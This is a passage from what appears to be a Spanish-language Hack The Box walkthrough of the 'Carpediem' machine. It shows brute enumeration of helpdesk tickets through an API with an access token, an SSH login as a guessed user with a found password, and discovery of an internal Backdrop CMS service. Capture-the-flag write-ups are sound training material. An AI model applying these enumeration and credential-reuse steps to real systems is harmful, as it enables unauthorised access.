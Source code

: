 En la llamada se nos dio una contraseña, en la conversación pasada se platicó sobre un nuevo empleado, buscando en los tickets encontramos el siguiente usuario.

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/carpediem$ seq 1000 2000 | xargs -P50 -I {} curl -H "accesstoken: f8691bd2d8d613ec89337b5cd5a98554f8fffcc4" -s http://trudesk.carpediem.htb/api/v1/tickets/{} | jq | grep -i "new"
    "subject": "New employee on-boarding - Horace Flaccus",
    "issue": "<p>We have hired a new Network Engineer and need to get him set up with his credentials and phone before his start date next month.<br />Please create this account at your earliest convenience.<br /><br />Thank you.</p>\n",
```
Se puede concluir que el usuario para la contraseña es hflaccus.

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/carpediem$ ssh hflaccus@10.10.11.167
hflaccus@10.10.11.167's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-97-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 12 Apr 2023 09:18:18 PM UTC

  System load:              0.1
  Usage of /:               73.6% of 9.46GB
  Memory usage:             36%
  Swap usage:               0%
  Processes:                268
  Users logged in:          0
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for eth0:    10.10.11.167
  IPv6 address for eth0:    dead:beef::250:56ff:feb9:9a6a


10 updates can be applied immediately.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

hflaccus@carpediem:~$ whoami
hflaccus
```
Al revisar lo puertos abiertos vemos que nos encontramos con el 8002, haciéndole un curl https nos sale esto.

```shell
hflaccus@carpediem:/var$ curl http:s//127.0.0.1:8002 
curl: (3) URL using bad/illegal format or missing URL
hflaccus@carpediem:/var$ curl https://127.0.0.1:8002 
curl: (60) SSL: certificate subject name 'backdrop.carpediem.htb' does not match target host name '127.0.0.1'
```
No hacemos port forwarding y vemos que se trata de un sitio web montado con backdrop cms.
